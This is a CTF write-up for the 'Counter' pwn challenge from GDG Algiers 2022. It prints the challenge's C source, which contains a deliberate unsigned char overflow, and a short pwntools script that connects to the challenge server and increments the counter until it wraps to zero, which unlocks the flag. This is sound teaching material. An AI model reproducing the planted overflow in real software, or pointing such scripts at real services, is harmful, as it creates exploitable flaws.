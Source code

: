 ```yaml
---
title: "Counter"
date: 2022-10-12T14:01:30+01:00
draft: true
description: "https://ctf.gdgalgiers.com/challenges"
tags : ['gdgalgiers', 'c', 'very easy', 'pwn']
aliases: [/ctf/gdg/pwn/counter/]
---
```



## Preview
![](https://github.com/0xWerz/CTF-writeups/blob/main/GDG-Algiers-2022/pwn/counter/img/desc.png?raw=true)

### Source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>
#include <unistd.h>
#include <errno.h>

#define NUM_BUF_SIZE 24
#define STRTOUL_BASE 10

void flag(void);

void disable_buffering(void);
void input_str(char *msg, char *str, size_t size);
unsigned long get_num(char *msg);

void flag(void) {
    system("cat flag.txt");
}

int main(int argc, char *argv[])
{
    unsigned char counter = 1;

    disable_buffering();

    while (true) {
        printf("Counter: %d\n", counter);
        puts("1) ++");
        puts("2) --");
        puts("3) Flag");
        puts("0) Exit");

        switch (get_num("Choice: ")) {
            case 1:
                counter++;
                break;
            case 2:
                if (counter > 1) {
                    counter--;
                }
                break;
            case 3:
                if (counter == 0) {
                    flag();
                } else {
                    puts("No.");
                }
                break;
            case 0:
                puts("Bye!");
            default:
                fprintf(stderr, "Invalid option\n");
                break;
        }

        putchar('\n');
    }

    return EXIT_SUCCESS;
}

void disable_buffering(void)
{
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}

void input_str(char *msg, char *str, size_t size)
{
    ssize_t num_bytes;

    fputs(msg, stdout);
    num_bytes = read(STDIN_FILENO, str, size - 1);
    if (num_bytes == -1) {
        perror("read");
        exit(EXIT_FAILURE);
    } else {
        str[num_bytes] = '\0';
    }

    return;
}

unsigned long get_num(char *msg)
{
    char str[NUM_BUF_SIZE] = { '\0' };
    char *endptr = NULL;
    unsigned long num;

    input_str(msg, str, NUM_BUF_SIZE);
    num = strtoul(str, &endptr, STRTOUL_BASE);
    if (errno == ERANGE) {
        perror("strtoul");
        exit(EXIT_FAILURE);
    }

    return num;
}
```
## Walkthrough

We know that the the unsigned char typically has a range of [0 to 255] for [more](https://www.geeksforgeeks.org/what-happens-if-loop-runs-till-maximum-of-signed-and-unsigned-in-c/) - if we loop through  it will jump to the 0 and that's the goal. I'll set up a script automation for that.  


```python
from pwn import *

r = remote("pwn.chal.ctf.gdgalgiers.com","1402")

for i in range(255 ):
    r.sendlineafter(b'Choice:', '1')

r.interactive()
```

